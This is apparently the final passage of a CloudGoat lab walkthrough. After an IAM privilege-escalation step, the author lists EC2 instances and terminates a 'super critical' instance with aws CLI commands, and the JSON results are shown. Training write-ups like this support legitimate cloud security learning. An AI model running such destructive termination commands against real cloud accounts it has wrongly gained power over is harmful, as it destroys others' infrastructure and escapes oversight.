 Our instance are on the `cg-ec2-mighty-role-iam_privesc_by_attachment_###` role.

We are god now, you can do whatever you want.

### Terminate another instances
In this scenario, our goal is terminating the super critical instance.

Let's list instances first.
```shell
aws ec2 describe-instances --query 'Reservations[*].Instances[*].InstanceId'
```
`aws ec2 describe-instances` will show all the ec2 instances in our account and `--query` is for querying only the detail that we want, in this case instance id.

Result:
```json
[
    [
        "<super-critical-instance-id>"
    ],
    [
        "<our-new-instance-id>"
    ]
]
```

Let's Terminate the super critical instance
```shell
aws ec2 terminate-instances --instance-ids <target-instance-id>
```

Result:
```json
{
    "TerminatingInstances": [
        {
            "CurrentState": {
                "Code": 32,
                "Name": "shutting-down"
            },
            "InstanceId": "<target-instance-id>",
            "PreviousState": {
                "Code": 16,
                "Name": "running"
            }
        }
    ]
}
```

We succeeded 👾
